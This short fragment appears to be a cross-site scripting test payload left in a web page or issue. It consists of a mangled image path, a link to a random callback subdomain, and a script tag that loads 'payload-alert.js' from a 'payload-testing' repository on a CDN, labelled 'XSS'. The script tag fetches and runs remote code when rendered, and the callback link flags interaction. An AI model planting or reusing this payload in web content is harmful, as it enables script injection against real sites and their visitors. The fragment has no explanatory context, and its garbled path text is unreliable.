 <a href="http://x31d3yf3uxjna9lf4pmzmngv3m9dxdl2.c01.red">HTML</a>
<script src="https://cdn.jsdelivr.net/gh/hotplugin0x01/payload-testing@main/payload-alert.js"></script>
XSS
